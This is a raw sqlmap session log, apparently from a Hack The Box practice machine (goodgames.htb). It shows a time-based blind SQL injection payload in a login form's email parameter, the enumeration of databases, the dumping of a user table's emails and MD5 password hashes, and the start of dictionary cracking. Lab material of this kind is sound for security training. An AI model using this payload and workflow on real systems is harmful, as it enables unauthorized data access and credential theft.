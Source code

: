 ```bash
[19:28:40] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test1@test.com' AND (SELECT 2081 FROM (SELECT(SLEEP(5)))LEKh) AND 'Jmin'='Jmin&password=test123
---
[19:28:42] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[19:28:42] [INFO] fetching database names
[19:28:42] [INFO] fetching number of databases
[19:28:42] [INFO] resumed: 2
[19:28:42] [INFO] resumed: information_schema
[19:28:42] [INFO] resumed: main
available databases [2]:
[*] information_schema
[*] main

[19:28:42] [INFO] fetching columns for table 'user' in database 'main'
[19:28:42] [INFO] resumed: 4
[19:28:42] [INFO] resumed: email
[19:28:42] [INFO] resumed: id
[19:28:42] [INFO] resumed: name
[19:28:42] [INFO] resumed: password
[19:28:42] [INFO] fetching entries for table 'user' in database 'main'
[19:28:42] [INFO] fetching number of entries for table 'user' in database 'main'
[19:28:42] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                  
[19:28:48] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[19:29:00] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                         
a
[19:29:22] [INFO] adjusting time delay to 1 second due to good response times
dmin
[19:29:39] [INFO] retrieved: admin@goodgames.htb
[19:31:00] [INFO] retrieved: 1
[19:31:03] [INFO] retrieved: 2b22337f218b2d82dfc3b6f77e7cb8ec
[19:33:16] [INFO] retrieved: test
[19:33:35] [INFO] retrieved: test@test.com
[19:34:39] [INFO] retrieved: 2
[19:34:44] [INFO] retrieved: cc03e747a6afbbcbf8be7668acfebee5
[19:37:25] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[19:37:26] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[19:37:26] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[19:37:26] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:37:26] [INFO] starting 5 processes 
```